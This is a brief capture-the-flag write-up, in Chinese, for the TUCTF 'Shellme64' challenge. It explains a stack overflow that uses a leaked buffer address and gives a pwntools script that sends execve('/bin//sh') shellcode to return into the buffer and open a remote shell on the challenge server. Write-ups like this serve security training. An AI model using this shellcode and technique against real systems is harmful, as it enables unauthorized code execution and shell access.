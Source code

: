 ### Shellme64

> [附件](./shellme64)

给了buffer地址，可以溢出覆盖返回地址跳转到buffer执行shellcode

[Exploit script:](./shellme32)

```python
from pwn import *
context.log_level='debug'

p = remote('chal.tuctf.com',30507)
# p = process('shellme64')

sc="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

p.recvuntil('this\n')
ret=int(p.recvuntil('\n',drop=True),16)
p.sendline(sc.ljust(40,'A')+p64(ret))
p.interactive()
```
